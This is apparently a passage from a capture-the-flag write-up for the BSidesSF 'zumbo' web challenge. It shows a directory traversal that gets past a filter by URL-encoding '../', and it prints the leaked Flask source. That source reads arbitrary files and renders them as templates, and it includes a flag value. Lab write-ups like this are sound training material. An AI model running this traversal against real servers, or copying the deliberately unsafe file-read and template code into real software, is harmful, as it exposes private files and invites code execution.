 View source of http://zumbo-8ac445b1.ctf.bsidessf.net/index.template

```html
<!-- page: index.template, src: /code/server.py -->
```

Let's check the `/code/server.py` path: http://zumbo-8ac445b1.ctf.bsidessf.net/code/server.py. We get an error:

```
[Errno 2] No such file or directory: u'code/server.py'
<!-- page: code/server.py, src: /code/server.py -->
```

Every non-existing page give the same error. We need to do a directory traversal: http://zumbo-8ac445b1.ctf.bsidessf.net/../../../../code/server.py. But unfortunately the `../../../../` part is automatically removed.

So I just URLencoded this part to bypass the filter: http://zumbo-8ac445b1.ctf.bsidessf.net/..%2f..%2f..%2f..%2fcode/server.py.

And we get the `server.py` source:

```python
import flask, sys, os
import requests

app = flask.Flask(__name__)
counter = 12345672


@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
    global counter
    counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);

@app.route('/')
def home():
    return flask.redirect('/index.template');

if __name__ == '__main__':
    flag1 = 'FLAG: FIRST_FLAG_WASNT_HARD'
    with open('/flag') as f:
            flag2 = f.read()
    flag3 = requests.get('http://vault:8080/flag').text

    print "Ready set go!"
    sys.stdout.flush()
    app.run(host="0.0.0.0")

<!-- page: ../../../../code/server.py, src: /code/server.py -->
```
